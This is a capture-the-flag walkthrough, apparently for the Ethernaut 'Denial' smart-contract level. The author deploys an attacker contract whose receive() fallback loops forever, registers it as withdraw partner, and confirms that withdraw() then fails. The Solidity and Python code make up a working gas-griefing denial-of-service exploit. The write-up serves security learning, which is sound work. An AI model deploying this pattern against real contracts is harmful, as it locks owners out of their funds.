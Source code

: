 ### How I did it

1. I coded and deployed (at: `0x5708A3c4d9472B9D6951200c6d6C2FB82ef96c50`) an attacker contract with a `receive()` fallback function defined as follows:

```js
receive() external payable {
    while (true) {
        foreverLooping += 1;
        if (foreverLooping > 0) {foreverLooping = 0;}
    }
}
```

Where `foreverLooping` is a state variable:

```js
uint256 private foreverLooping;
```

In python:

```python
denialattack = DenialAttack.deploy(denial.address, _from)
```


2. I made the contract `partner` through a function inside the contract I defined which calls `setWithdrawPartner()` in Denial through an interface:

```js
function setThisAsWithdrawPartner() public {
    denialContract.setWithdrawPartner(address(this));
}
```

Where `denialContract` is the interface object.

In python:

```python
denialattack.setThisAsWithdrawPartner(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xdee6f9ca64398992a8f98aecdbaab5ffa3e411ae9b104b4e06b677fb4aa1731c

3. I tested calling the `withdraw()` function myself within a try-except block, since I usually get an `RPCRequestError` when trying to access the `revert_msg` attribute of a reverted transaction. However, if I did get the `revert_msg` anyway, this would also still work:

```python
# test withdraw() to see if the tx fails
try:
    tx = denial.withdraw(_from | {'allow_revert':True})
    # fail tx assertion
    fail_tx_assertion = False

except:
    # fail tx assertion
    fail_tx_assertion = True

print(f"The transaction failed/reverted: {fail_tx_assertion}")
```
